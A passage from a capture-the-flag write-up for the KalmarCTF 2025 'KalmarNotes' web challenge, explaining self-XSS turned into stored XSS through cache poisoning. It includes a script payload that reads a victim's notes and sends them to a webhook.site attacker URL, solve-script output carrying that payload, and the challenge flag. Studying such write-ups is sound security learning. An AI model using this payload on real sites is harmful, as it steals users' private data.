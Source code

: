 Nice! So we can now exfiltrate the admin bot's session cookie and view the flag note, right?

```python
app.config.update(
    SESSION_COOKIE_SAMESITE='Strict',
    SESSION_COOKIE_HTTPONLY=True
)
```

Oh, the session has flag `httpOnly`!!

But don't worry, we can just use our payload to read all the admin bot's notes via GET route `/api/notes`, and exfiltrate the JSON notes object to our attacker server, like the following:

```html
<script>
fetch('/api/notes')
  .then(response => response.json())
  .then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))
</script>
```

## Exploitation

Armed with above information, we can read the flag note's content via the following steps:
1. Register a new user with our XSS payload in the username
2. Create a new note
3. Cache poisoning the note (Make sure cache is hit)
4. Report the poisoned note to the admin bot

To automate the above step, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarNotes)-[2025.03.11|18:33:05(HKT)]
└> python3 solve.py
[*] Registering new user with username "<script>fetch(`/api/notes`).then(response => response.json()).then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))</script>vzLQlyMhWM" | Password: "zINLJFThmP"
[+] Registered a new user
[*] Loggin user "<script>fetch(`/api/notes`).then(response => response.json()).then(jsonResponse => fetch(`//webhook.site/638a21c2-2009-4d8e-99f6-ca9e3c3e8a69?notes=${JSON.stringify(jsonResponse)}`))</script>vzLQlyMhWM"
[+] Registered a new user
[*] Creating a new note
[+] Created a new note
[*] Getting a random note ID
[+] Random note ID: 126054782064
[*] Poisoning note ID 126054782064
[*] Current cache hits: 5
[+] Note ID 126054782064 is now poisoned with age 5! URL: https://42582f7d651545634d8c119d86d4ad62-49590.inst1.chal-kalmarc.tf/note/126054782064/long?.js
[*] Reporting to the admin bot with URL: https://42582f7d651545634d8c119d86d4ad62-49590.inst1.chal-kalmarc.tf/note/126054782064/long?.js
[+] Reported to the admin bot. Check your exfiltrated attacker server to see if there's any new request.
```

- **Flag: `kalmar{c4ch3_m3_0ut51d3_h0w_b0w_d4h}`**

## Conclusion

What we've learned:

1. Self-XSS to stored XSS via cache poisoning